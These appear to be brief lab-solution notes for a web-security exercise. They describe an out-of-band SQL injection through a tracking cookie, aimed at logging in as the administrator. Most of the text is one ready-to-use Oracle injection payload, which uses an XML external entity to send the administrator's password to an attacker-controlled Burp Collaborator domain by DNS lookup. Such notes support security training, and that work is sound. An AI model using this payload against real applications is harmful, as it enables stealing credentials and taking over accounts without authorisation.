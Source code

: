  Vulnerable parameter is the tracking cookie
 DB has users
 columns username and password
 
 Login as the administrator user
 
 ' || (SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users WHERE username = 'administrator')||'.ulj5yhd5se03xj88tv5vzluyvp1fp4.burpcollaborator.net-HERE.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual)--
 
 ulj5yhd5se03xj88tv5vzluyvp1fp4.burpcollaborator.net
